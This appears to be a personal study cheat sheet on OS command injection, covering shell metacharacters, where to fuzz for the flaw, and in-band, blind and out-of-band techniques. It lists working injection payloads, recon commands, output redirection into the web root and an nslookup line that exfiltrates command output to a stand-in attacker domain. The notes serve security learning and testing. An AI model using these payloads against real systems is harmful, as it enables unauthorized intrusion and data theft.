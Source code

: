 ## OS command injection

## Introduction
OS command injection (also known as shell injection) is a web security vulnerability that allows an attacker to execute arbitrary operating system (OS) commands on the server that is running an application, and typically fully compromise the application and all its data. Very often, an attacker can leverage an OS command injection vulnerability to compromise other parts of the hosting infrastructure, exploiting trust relationships to pivot the attack to other systems within the organization.
## Pre-Requirements 
1. **Wildcards**:
    
    - `*` (Asterisk): Matches any sequence of characters.
    - `?` (Question Mark): Matches any single character.
    - `[]` (Square Brackets): Defines a character class for matching a single character from a specified set or range. For example, `[a-zA-Z]` matches any single alphabetic character.
2. **Redirection**:
    
    - `>` (Greater Than): Redirects the standard output of a command to a file, overwriting its contents if it exists.
    - `>>` (Double Greater Than): Redirects the standard output of a command to a file, appending to the end of the file if it exists.
    - `<` (Less Than): Redirects the standard input of a command from a file.
    - `|` (Pipe): Redirects the standard output of one command to the standard input of another.
3. **Command Substitution**:
    
    - `` ` `` (Backticks): Executes a command within backticks and substitutes its output.
    - `$()` (Dollar Parentheses): Similar to backticks, it executes a command and substitutes its output.
4. **Escape Characters**:
    
    - `\` (Backslash): Escapes the next character, disabling its special meaning. For example, `\n` represents a newline character.
5. **Quoting**:
    
    - `"` (Double Quotes): Preserve the literal value of all characters within the quotes, except for variables and backticks, which are still evaluated.
    - `'` (Single Quotes): Preserve the literal value of all characters within the quotes, including variables and backticks.
6. **Variable Expansion**:
    
    - `$` (Dollar Sign): Indicates variable expansion. For example, `$var` refers to the value of the variable `var`.
7. **Logical Operators**:
    
    - `&&` (Logical AND): Used to combine two commands, executing the second only if the first succeeds.
    - `||` (Logical OR): Used to combine two commands, executing the second only if the first fails.
8. **Other Special Characters**:
    
    - `;` (Semicolon): Separates multiple commands on a single line.
    - `&` (Ampersand): Runs a command in the background.
    - `#` (Hash or Pound Sign): Denotes a comment in shell scripts.
## Where to find ?
- everywhere, use burp active scan 
```
productId=4&storeId=1|whoami => u can fuzz the | for other shell meta chars
```
- u just don't know where the Web server interacts with the OS, so fuzzzzzzz

## How to Exploit ? 
### In-Band 
- use the below commands with shell meta chars 

| purpose of command   | Linux       | Windows      |
| -------------------- | ----------- | ------------ |
| Name of current user | whoami      | whoami       |
| OS                   | uname -a    | ver          |
| Network Conf         | ifconfig    | ipconfig/all |
| Network Connections  | netstat -an | netstat -an  |
| Running process      | ps -ef      | tasklist             |

###  Blind and Out-Of-Band 
- Detecting blind OS command injection using time delays
```
& ping -c 10 127.0.0.1 &
```
- Exploiting blind OS command injection by redirecting output
```
& whoami > /var/www/static/whoami.txt &
=> https://vulnerable-website.com/whoami.txt
```
---
- Detect OAST
```
& nslookup kgji2ohoyw.web-attacker.com &
```
- Exploit OAST
```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```
---
- some tips 
```
;
Newline (0x0a or \n)
```